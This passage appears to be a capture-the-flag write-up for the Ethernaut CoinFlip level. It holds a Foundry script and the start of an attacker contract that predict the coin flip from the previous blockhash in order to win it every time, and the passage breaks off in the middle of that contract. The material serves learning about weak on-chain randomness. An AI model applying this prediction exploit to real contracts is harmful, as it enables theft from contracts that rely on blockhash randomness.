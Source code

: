 It doesn’t work because block.number doesn’t change between executionn of the loop.

[link_preview](https://github.com/foundry-rs/foundry/issues/5840)

It seems that theire is on way to do this so let’s go by hand for now…

Here is the forge script:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_03");
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        vm.startBroadcast(deployerPrivateKey);
        CoinFlip instance = CoinFlip(addr);

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        instance.flip(side);
        console.logUint(instance.consecutiveWins());


        vm.stopBroadcast();
    }
}
```

Actually this is too complecated. So let’s build a contract that will do th attack for us with check in it so that we are sure to get a valid result.

here is my attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipTarget;

  constructor(address instanceAdrress) {
    coinFlipTarget = CoinFlip(instanceAdrress);
    consecutiveWins = 0;
```